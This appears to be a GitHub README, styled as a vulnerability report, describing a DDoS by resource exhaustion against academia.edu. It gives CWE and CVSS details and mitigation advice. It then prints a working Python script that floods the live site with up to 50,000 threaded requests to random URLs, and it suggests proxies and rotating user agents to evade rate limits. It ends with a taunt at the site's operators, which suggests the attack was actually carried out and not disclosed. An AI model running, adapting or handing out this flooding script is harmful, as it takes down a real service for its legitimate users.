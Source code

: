 # Skooled
### Ddos for Academina.edu

### Title: DDoS by Resource Exhaustion Using Proxies and User Agents Bypassing Rate Limits

Description: This report describes a Distributed Denial of Service (DDoS) attack targeting academia.edu, where multiple requests are generated to exhaust server resources. The attack leverages randomized URL generation, multiple proxy addresses, and varying user-agent headers to bypass rate-limiting mechanisms. By generating high-volume requests in rapid succession, the attack attempts to exhaust server resources, resulting in a denial of service for legitimate users.


---

Vulnerability Details:

Attack Type: Distributed Denial of Service (DDoS) by Resource Exhaustion

Affected Platform: Academia.edu

Script Used: Python-based script (skooed.py) that generates random URLs, bypasses rate limits, and utilizes threading for high-volume concurrent requests.


Steps of the Attack:

1. Random URL Generation: The script randomly generates URLs using a combination of pre-defined base URLs and random 7-digit numerical strings, creating a large number of unique requests.


2. Threading for Concurrency: By using threading, the script launches multiple concurrent requests (up to 50,000 threads in this instance), resulting in a massive spike in request volume.


3. Resource Exhaustion: The rapid and massive influx of requests aims to overload the server resources (CPU, memory, bandwidth) and cause slowdowns or unavailability.


4. Rate Limit Bypass: The script can be modified with proxies and varying user agents to evade rate-limiting restrictions that would otherwise prevent excessive requests from the same IP.




---

CWE IDs:

CWE-400: Uncontrolled Resource Consumption - Excessive requests lead to resource exhaustion, impacting server availability.

CWE-770: Allocation of Resources Without Limits or Throttling - Lack of adequate rate limiting on academia.edu’s platform.

CWE-829: Inclusion of Functionality from Untrusted Control Sphere - Potential exploitation of unauthenticated resources due to improper rate limiting.



---

CVSS Score Calculation: Based on the characteristics of this DDoS attack, the CVSS (Common Vulnerability Scoring System) score would be calculated as follows:

Attack Vector (AV): Network (N)

Attack Complexity (AC): Low (L)

Privileges Required (PR): None (N)

User Interaction (UI): None (N)

Scope (S): Unchanged (U)

Confidentiality (C): None (N)

Integrity (I): None (N)

Availability (A): High (H) – Severe impact on availability due to resource exhaustion.


CVSS Score: 7.5 (High)

This score reflects the significant impact on availability and the low difficulty in executing this type of attack.


---

Mitigation Recommendations:

1. Rate Limiting and Throttling: Implement strict rate-limiting mechanisms based on IP addresses, user agents, and request patterns to detect and block excessive requests.


2. CAPTCHA Challenges: Enforce CAPTCHA or other challenge mechanisms for unusual access patterns to limit bot-based requests.


3. Web Application Firewall (WAF): Deploy a WAF to identify and block abnormal request patterns that indicate DDoS attempts.


4. Load Balancing and Autoscaling: Use load balancers to distribute traffic efficiently and enable autoscaling to handle sudden traffic spikes without exhausting resources.


5. Monitoring and Alerts: Continuous monitoring of server health and unusual traffic patterns can help detect early signs of resource exhaustion and trigger defensive actions.




---

PoC script:

```python
import requests
import threading
import random
import time

# List of base URLs to test
base_urls = [
    "https://www.academia.edu/10",
    "https://www.academia.edu/11"
]

# Function to generate a URL with a random 7-digit numerical string
def generate_random_url():
    base_url = random.choice(base_urls)  # Randomly select a base URL
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(7)])
    return f"{base_url}{random_digits}"

# Function to make a request to the generated URL
def make_request():
    url = generate_random_url()
    try:
        response = requests.get(url)
        print(f"Requested: {url} | Status Code: {response.status_code}")
    except requests.RequestException as e:
        print(f"Request failed for {url}: {e}")

# Main function to create threads and run multiple requests concurrently
def run_concurrent_requests(num_threads):
    threads = []
    for _ in range(num_threads):
        thread = threading.Thread(target=make_request)
        threads.append(thread)
        thread.start()
        time.sleep(0.1)  # slight delay to stagger requests

    for thread in threads:
        thread.join()

# Run the script with the desired number of threads
if __name__ == "__main__":
    num_threads = 50000  # Adjust the number of concurrent requests as needed
    run_concurrent_requests(num_threads)
```
All those Doctors on there and you didn't thunk too hire one to be able to stop me. 🤣🤣🤣

